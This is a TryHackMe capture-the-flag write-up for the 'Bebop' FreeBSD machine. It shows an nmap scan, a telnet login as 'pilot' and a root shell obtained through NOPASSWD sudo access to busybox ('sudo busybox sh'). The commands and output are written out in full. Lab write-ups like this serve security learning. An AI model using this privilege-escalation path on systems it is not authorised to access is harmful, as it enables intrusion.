





# TryHackMe — Bebop

**Category:** TryHackMe / Bebop  
**Difficulty:** Easy  
**Date:** 2026-08-16

## Goal

Firefly-themed guided machine — get a foothold on the FreeBSD box and grab user.txt and root.txt.

## Solution

Full port scan first:

    nmap -p- -sC -sV 10.49.188.52

Only two ports open: 22 (SSH, OpenSSH 7.5 on FreeBSD) and 23 (telnet, BSD-derived telnetd). Went for telnet first:

    telnet 10.49.188.52 23

Logged in as `pilot` and grabbed the user flag:

    $ whoami
    pilot
    $ ls
    user.txt
    $ cat user.txt

Checked sudo permissions next:

    $ sudo -l
    User pilot may run the following commands on freebsd:
        (root) NOPASSWD: /usr/local/bin/busybox

`busybox` bundles a full shell, so NOPASSWD access to it is a direct root shell:

    $ sudo /usr/local/bin/busybox sh
    # whoami
    root

From there, grabbed the root flag:

    # cd /root
    # ls -la
    # cat root.txt

## Result

    User flag: [REDACTED]
    Root flag: [REDACTED]

## Key Takeaway

NOPASSWD sudo access to `busybox` is root, full stop — it ships a shell applet (`busybox sh`), so there's no need to look for anything cleverer once `sudo -l` shows it.
